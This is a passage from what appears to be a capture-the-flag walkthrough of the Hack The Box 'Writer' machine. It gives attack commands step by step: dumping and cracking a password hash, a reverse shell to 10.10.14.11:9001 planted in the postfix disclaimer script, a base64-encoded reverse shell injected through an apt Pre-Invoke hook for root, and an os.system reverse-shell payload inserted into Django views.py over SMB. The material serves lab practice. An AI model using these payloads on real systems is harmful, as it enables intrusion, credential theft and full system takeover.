

check mysql

```bash
mysql -u djangouser -p dev

show tables;
select * from auth_user;
```

got password hash, kyle

```bash
hashcat writer-kyle.hash ../rockyou.txt

kyle:marcoantonio
```


## kyle shell

ssh to kyle.

```bash
ssh kyle@$tip
```

basic enum, kyle is member of group filter

```bash
groups

find / -group filter -ls 2>/dev/null
```

writable to file /etc/postfix/disclaimer

check /etc/postfix/master.cf

```bash
cd /etc/postfix
grep -R disclaimer .

  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```


## john shell

exploit disclaimer, got john shell.

add shell scripts before Send email 

```bash
# add to disclaimer
bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'

# send mail
nc -nv 127.0.0.1 25

EHLO writer.htb

mail from: kyle@writer.htb
RCPT TO: john@writer.htb
data
subject: test mail
hello, test
.
```

got john shell.

save id_rsa, connect via ssh.

```bash
chmod 600 john_idrsa
ssh -i john_idrsa john@$tip

```

check group, John is member of management group, able to write to /etc/apt/apt.conf.d

```bash
groups john
find / -group management -ls 2>/dev/null
```

## root


exploit apt update

```bash
cd /etc/apt/apt.conf.d
echo 'apt::Update::Pre-Invoke { "echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash"};' > 00-test
```

got root shell.


## proof

```bash


```


# beyond root

##  www-data shell way 2

when you got admin creds from `__init__.py`,  the password works for smb on kyle.

mount and modify views.py

```bash
smbmap -H 10.10.11.101 -u kyle -p ToughPasswordToCrack

sudo mount -t cifs -o user=kyle,password=ToughPasswordToCrack //$tip/write2_project /mtn/write
```


check views.py, this running on 80 local

```bash
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```


add shell payload to this.

```bash
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash
')
    template_name = "index.html"
    return render(request,template_name)
```

trigger from upload image, image_url


